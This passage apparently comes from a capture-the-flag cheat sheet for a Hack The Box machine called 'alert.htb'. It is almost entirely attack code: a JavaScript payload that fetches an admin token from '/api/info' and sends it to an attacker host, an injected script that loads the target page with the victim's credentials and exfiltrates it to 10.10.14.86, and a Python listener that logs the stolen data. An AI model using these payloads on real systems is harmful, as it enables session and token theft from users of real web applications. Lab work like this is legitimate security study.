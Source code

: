 ```js
(function() {
    fetch('/api/info')
        .then(response => response.json())
        .then(data => {
            var token = data.adminToken || data.token || JSON.stringify(data);

            var img = new Image();
            img.src = 'http://<LHOST>/?token=' + encodeURIComponent(token);
        })
        .catch(err => {
            console.error('Error fetching token:', err);
        });
})();
```

#### JavaScript (JS) Page Downloader

```js
<script>
fetch('http://alert.htb/', { credentials: 'include' }) // Fetch the target page
    .then(response => response.text()) // Convert the response to text
    .then(data => {
        // Send the content via a GET request
        fetch('http://10.10.14.86:8000/exfil?data=' + encodeURIComponent(data));
    });
</script>
```

##### webserver.py

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import logging

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        logging.info("Received Data: %s", post_data.decode('utf-8'))
        self.send_response(200)
        self.end_headers()

def run(server_class=HTTPServer, handler_class=RequestHandler, port=80):
    logging.basicConfig(level=logging.INFO)
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    logging.info('Starting server on port %d...', port)
    httpd.serve_forever()

if __name__ == '__main__':
    run(port=8000)
```
